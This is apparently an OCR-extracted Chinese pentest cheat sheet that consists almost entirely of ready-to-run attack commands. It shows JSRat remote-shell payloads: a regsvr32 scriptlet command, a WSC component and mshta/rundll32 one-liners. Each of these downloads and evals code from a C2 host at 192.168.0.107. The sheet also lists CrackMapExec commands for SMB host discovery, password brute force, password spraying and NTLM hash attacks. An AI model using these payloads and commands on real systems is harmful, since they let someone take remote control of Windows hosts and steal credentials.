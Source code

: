 ```
`>regsvr32.exe /u /n /s /i:http://192.168.0.107:1234/file.sct scrobj.dll``JSRat显示上线`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
**`Wsc方式`**
```

```
`<?xml version="1.0"?>``<package>``<component id="testCalc">``<script language="JScript">``<![CDATA[` `rat="rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");w=new%20ActiveXObject(\"WScript.Shell\");try{v=w.RegRead(\"HKCU\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Internet%20Settings\\\\ProxyServer\");q=v.split(\"=\")[1].split(\";\")[0];h.SetProxy(2,q);}catch(e){}h.Open(\"GET\",\"http://192.168.0.107:1234/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";` `new ActiveXObject("WScript.Shell").Run(rat,0,true);``]]>``</script>``</component>``</package>``>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://192.168.0.107/jsrat.wsc")``Mshta方式``>mshta javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.0.107:1234/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im mshta.exe",0,true);}`
```

```
**CrackMapExec  
**
```

#### **信息收集**

```
`返回活动主机``>crackmapexec smb 192.168.0.0/24`
```

  

#### **爆破**

```
`支持协议ssh,smb,winrm,mssql,http``爆破smb协议，两台机器，一个用户名多个密码``>crackmapexec smb 192.168.0.98 192.168.0.55 -u username1 -p password1 password2``>crackmapexec smb 192.168.0.0/24 -d zone.com -u y -p 'password' --shares`
```

```
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

```

```
`密码喷射``>crackmapexec <protocol> <target(s)> -u username1 username2 -p password1``指定字典``>crackmapexec <protocol> <target(s)> -u /tmp/user.txt -p /tmp/pass.txt``Hash爆破``>crackmapexec <protocol> <target(s)> -u /tmp/user.txt -H /tmp/ntlm.txt`
```
